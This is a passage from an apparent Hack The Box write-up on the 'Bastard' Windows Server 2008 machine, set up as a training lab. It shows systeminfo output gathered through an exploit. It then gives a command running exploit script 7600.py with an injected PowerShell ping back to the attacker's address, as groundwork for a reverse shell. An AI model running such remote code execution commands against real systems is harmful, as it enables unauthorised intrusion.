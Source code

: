 We can again use the same exploit to capture the `systeminfo` output below, which tells us that we're looking at a 64-bit Server 2008 system.

```
Host Name:                 BASTARD
OS Name:                   Microsoft Windows Server 2008 R2 Datacenter 
OS Version:                6.1.7600 N/A Build 7600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:   
Product ID:                00496-001-0001283-84782
Original Install Date:     18/3/2017, 7:04:46 ��
System Boot Time:          29/2/2020, 12:02:09 ��
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               x64-based PC
Processor(s):              2 Processor(s) Installed.
                           [01]: AMD64 Family 23 Model 1 Stepping 2 AuthenticAMD ~2000 Mhz
                           [02]: AMD64 Family 23 Model 1 Stepping 2 AuthenticAMD ~2000 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 12/12/2018
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             el;Greek
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC+02:00) Athens, Bucharest, Istanbul
Total Physical Memory:     2.047 MB
Available Physical Memory: 1.544 MB
Virtual Memory: Max Size:  4.095 MB
Virtual Memory: Available: 3.565 MB
Virtual Memory: In Use:    530 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB
Logon Server:              N/A
Hotfix(s):                 N/A
Network Card(s):           1 NIC(s) Installed.
                           [01]: Intel(R) PRO/1000 MT Network Connection
                                 Connection Name: Local Area Connection
                                 DHCP Enabled:    No
                                 IP address(es)
                                 [01]: 10.10.10.9
```

Knowing this, we should try to get a reverse shell using the 64-bit version of PowerShell. This means we need to specify the exact path, as the `powershell.exe` in a normal Windows path is 32-bit. By default, this binary can be found at `C:\windows\system32\WindowsPowerShell\v1.0\powershell.exe`. We can test for this path with another ping test, with the below command.

```
python3 7600.py -c 'C:\windows\system32\WindowsPowerShell\v1.0\powershell.exe ping 10.10.14.24' http://10.10.10.9/
```
